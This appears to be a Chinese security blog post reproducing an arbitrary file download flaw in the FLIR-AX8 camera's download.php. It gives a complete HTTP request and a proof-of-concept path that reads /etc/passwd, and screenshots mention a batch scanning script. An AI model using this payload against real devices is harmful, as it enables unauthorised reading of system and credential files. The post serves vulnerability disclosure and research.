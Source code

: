 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ub8eg5NABy61YPxSB0Fu6Q)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjc8pmcbcoe9PdiahIebL3sncnu9SsUErjXu1l0oE45vFroVLzRS6UBe4MfObxHDVYiaSEwcJIVjUEUA/640?wx_fmt=png)

FLIR-AX8 任意文件下载

一、漏洞描述

FLIR-AX8 download.php 存在任意文件下载漏洞，直接访问可下载相关系统配置文件。

二、影响版本  

FLIR-AX8

三、漏洞复现

访问主页：  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjc8pmcbcoe9PdiahIebL3snceLd3qhHgPMbTSEiaLDw2b73KP9BQfxxrujBfL97SoZGicPf3FbAaTibAA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjc8pmcbcoe9PdiahIebL3snclNBlxugkiaYMcuqEibriaLNx2bPmPS7vNlSRyBktnpkzMpqZnqnlPTBvg/640?wx_fmt=png)

详细数据包：

```
GET /download.php?file=/etc/passwd HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

poc：  

```
/download.php?file=/etc/passwd
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjc8pmcbcoe9PdiahIebL3sncOPUhoTJxY9sY2rRaQiaG1MWibLT8ePDoFk7KlozJR2gz1rypTRfnqVJg/640?wx_fmt=png)

直接浏览器访问下载，请求文件  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjc8pmcbcoe9PdiahIebL3snczMdicJGibfEXlyggI43r8w27esf2520r9dlYvddjNvhWRMzjibX3rghbw/640?wx_fmt=png)

尝试批量脚本：  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjc8pmcbcoe9PdiahIebL3snc21PFMeaKchbjBjItU1R7RIA0QMr9FClDjiawefFAtNm5s6Zz0N8icMkg/640?wx_fmt=png)

参考：

http://wiki.peiqi.tech/PeiQi_Wiki/%E7%BD%91%E7%BB%9C%E8%AE%BE%E5%A4%87%E6%BC%8F%E6%B4%9E/%E8%8F%B2%E5%8A%9B%E5%B0%94/FLIR-AX8%20download.php%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8B%E8%BD%BD.html?h=FLIR-AX8%20download.php%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8B%E8%BD%BD

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

如果本文内容侵权或者对贵公司业务或者其他有影响，请联系作者删除。  

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjeUdNIfB9qQKpwD7fiaNJ6JdXjenGicKJg8tqrSjxK5iaFtCVM8TKIUtr7BoePtkHDicUSsYzuicZHt9icw/640?wx_fmt=jpeg)

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

FREEBUF 主页：https://www.freebuf.com/author/thelostworld?type=article

语雀博客主页：https://www.yuque.com/thelostworld

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcW6VR2xoE3js2J4uFMbFUKgglmlkCgua98XibptoPLesmlclJyJYpwmWIDIViaJWux8zOPFn01sONw/640?wx_fmt=png)

欢迎添加本公众号作者微信交流，添加时备注一下 “公众号”  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3ibf9GUyuOCzpVJBq6z1Z60vzBjlEWLAu4gD9Lk4S57BcEiaGOibJfoXicQ/640?wx_fmt=png)